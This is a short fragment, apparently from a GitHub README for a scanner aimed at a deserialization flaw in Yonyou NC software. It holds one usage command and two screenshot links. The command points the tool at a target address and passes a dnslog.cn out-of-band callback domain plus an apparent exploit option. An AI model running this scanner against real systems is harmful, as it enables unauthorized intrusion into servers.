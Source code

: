 `python3 YonyouNcScan2.py -u http://172.16.1.200:8000 -d m4ssvh.dnslog.cn -e txtwin`

<img width="791" alt="image-20230519155611731" src="https://github.com/hkxueqi/YonyouNc-UNSERIALIZE-scan/assets/42443541/29c02efe-85e2-4e84-90a4-07a0581ba780">

<img width="629" alt="image-20230519155702982" src="https://github.com/hkxueqi/YonyouNc-UNSERIALIZE-scan/assets/42443541/5e56307b-bfbb-44d1-8ba0-56bea20bc656">


